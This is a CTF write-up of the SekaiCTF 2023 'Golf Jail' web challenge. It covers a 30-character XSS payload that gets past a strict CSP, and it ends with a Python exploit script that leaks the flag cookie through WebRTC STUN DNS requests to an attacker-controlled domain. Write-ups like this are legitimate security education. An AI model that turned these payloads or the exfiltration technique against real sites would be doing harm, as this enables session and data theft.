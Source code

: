 ```yaml
---

layout: post

title: "SekaiCTF-23"

date: 2023-08-29 

tag-name: web tiny-xss jsjail strict-csp webrtc

---
```


# Web - Golf Jail

`I hope you like golfing ⛳🏌️⛳🏌️` 

Stats : 16 solves / 475 pts 

Difficulty: ⭐⭐⭐⭐

Author: strellic

## Introduction

The challenge code is really small, it's ~24 lines of code 

```php
<?php
    header("Content-Security-Policy: default-src 'none'; frame-ancestors 'none'; script-src 'unsafe-inline' 'unsafe-eval';");
    header("Cross-Origin-Opener-Policy: same-origin");

    $payload = "🚩🚩🚩";
    if (isset($_GET["xss"]) && is_string($_GET["xss"]) && strlen($_GET["xss"]) <= 30) {
        $payload = $_GET["xss"];
    }

    $flag = "SEKAI{test_flag}";
    if (isset($_COOKIE["flag"]) && is_string($_COOKIE["flag"])) {
        $flag = $_COOKIE["flag"];
    }
?>
<!DOCTYPE html>
<html>
    <body>
        <iframe
            sandbox="allow-scripts"
            srcdoc="<!-- <?php echo htmlspecialchars($flag) ?> --><div><?php echo htmlspecialchars($payload); ?></div>"
        ></iframe>
    </body>
</html>
```

The idea is straightforward here, we need to achieve XSS with just 30 chars and bypassing this really strict CSP

## Day 1 - Chasing the rabbit down the hole

Although the idea of the challenge is really simple, it's really hard to find a proper way to exploit it. 
The first thing that came to my mind was to look for some really <mark class="hltr-orange">tiny XSS payload</mark> , so i googled for `tiny xss` and looked if i can find something useful.

With no surprise the shortest payload that i've found was `<svg/onload=eval(name)>` which is 23 chars long. I thought that maybe i can find something even smaller but apparently this is the shortest at the moment.

How this payload works by the way? It's <mark class="hltr-orange">indeed simple</mark> because `name` is a shorthand for `window.name` which is a variable that contains the name of the window in the browsing context.
The really cool thing is that we can set the `window.name` property using the second parameter of the `window.open` function.
So if we can make the bot visit a site that we control we can open a new window with an arbitrary name and evaluate it to achieve xss

But in our case this won't work, because the bot will only visits url that matches this regex `/^https:\/\/golfjail\.chals\.sekai\.team\//` 

Another payload that i thought about was to use `location.hash` but this will be way more chars than the one allowed
Looking through https://tinyxss.terjanq.me/ i've found about this payload `<script/src=//Ǌ.₨></script>` which is 27 chars long
But even this one won't work due to strict CSP which states `script-src 'unsafe-inline' 'unsafe-eval'` so no external scripts allowed

At this point it started to become frustrating, but suddenly i remembered about a challenge written by <mark class="hltr-orange">@aszx87410</mark> about an XSS with a very strict chars limit

So i googled `aszx87410 0222 intigriti` to try to find some new inspiration

### It's all about URL

The writeup for the [challenge](https://github.com/aszx87410/ctf-writeups/issues/49) (and obviously the challenge) is <mark class="hltr-orange">really good</mark>. Here the author consider a payload that i haven't thought about before 
```html
<svg/onload=eval(`'`+URL)> 
``` 
In the writeup is explained perfectly how the payload is supposed to work, and how to craft an url that fits the `eval` and can be used to execute javascript code

All we need to know for the challenge purposes was that if we supply an URL like this 
```
https://golfjail.chals.sekai.team/?xss=<svg/onload=eval(`'`+URL)>#';console.log(1)
```
The xss parameter will be less than 30 chars, and the URL will be valid syntax to be evaluated from `eval` to achieve XSS

So were is the problem here? It's simple, <mark class="hltr-orange">this won't work anymore</mark>. Beacause URL is a function and doesn't give the URL of the page so this seems like a dead end

Ok seriously now i was on the verge of a mental breakdown, so i decided that it was better to go to sleep and start the morning after

## Day 2 - Do you believe in magic?

It was clear at this point that we need some sort of placeholder in order to bypass the chars limit, and the only thing we can control was the URL only.
So i started digging into the js documentation, html specification and every kind of blog-post regarding javascript to find the tiniest spark of hope to get XSS

After 2 or 3 hours of digging in depth of the web and after a bit of fuzzing i've found this property `Node.baseURI` which returns the <mark class="hltr-orange">absolute base URL</mark> of the document containing the node
This was interesting enough to spend some time on time, but i was completely shocked when from inside the iframe the `document.baseURI` property returned the location of the <mark class="hltr-orange">top window</mark> 

This literally blew my mind, but now i knew which placeholder i can use to bypass the 30 chars length
```html
<svg/onload=eval(`'`+baseURI)>
```
The last thing to mention here is that we can omit `document` and just use `baseURI` because `document` is implicitly used, so the payload will be exactly 30 chars !

### Stealing strellic exploit

Ok, so we have xss and now we need to exfiltrate the flag. Fortunately this part was easy for me because right from the start i knew a way to bypass that really strict CSP. The way is <mark class="hltr-orange">webRTC</mark> .
Why do i knew it? From another strellic challenge of course. The challenge was released in the corCTF23 and the name is [crabspace](https://brycec.me/posts/corctf_2023_challenges#crabspace), which basically uses webRTC to exfiltrate data
So i <s>stolen</s> borrowed the payload from his writeup and used it to perform exfiltration

## Leaking all the things

I've automated the exploit due to the fact that i've had some hard time to exfiltrate data via webRTC because of some special chars in the flag.
Basically what i did in the exploit was to take the flag from inside the iframe via `document.firstChild.textContent` and split it by the underscore to leak it <mark class="hltr-orange">word by word</mark> 

The funny part here is that when i've tried to leak the last word of the flag, something didn't work apparently so my guess was that there will be some special chars at the end of the word that breaks the DNS query
So i need to tweak my exploit a bit to leak the flag

```python
import requests
import base64

URL = "https://golfjail.chals.sekai.team/?xss=<svg/onload=eval(`'`%2bbaseURI)>#';"

payload = """
var index = 0;
var pay=document.firstChild.textContent.trim().split('{')[1].split('}')[0].split("_")[index];
pc = new RTCPeerConnection({'iceServers':[{'urls':['stun:'+pay+'.my_mess_with_dns']}]});
pc.createOffer({offerToReceiveAudio:1}).then(o=>pc.setLocalDescription(o));
"""

payload = payload.replace("\n","")
payload = base64.b64encode(payload.encode())
payload = b"eval(atob('"+payload+b"'))";
print(URL+payload.decode("utf-8"))

#SEKAI{jsjails_4re_b3tter_th4n_pyjai1s!}
```

Notice that has i've said before, you need to change the `index` value every time to leak every word, and for the last word i've exfiltrated all of it besides the last char. 
To be more specific, the last char was exfiltrated by taking is charCode and leaking it, then i
converted it back to its original value

## Conclusion

The challenge was really fun to play and i've learn a lot of new things. As always strelli challs are a goldmine, definitely want to play the other challenge which is leakless-note in order to learn novel xs-leak technique

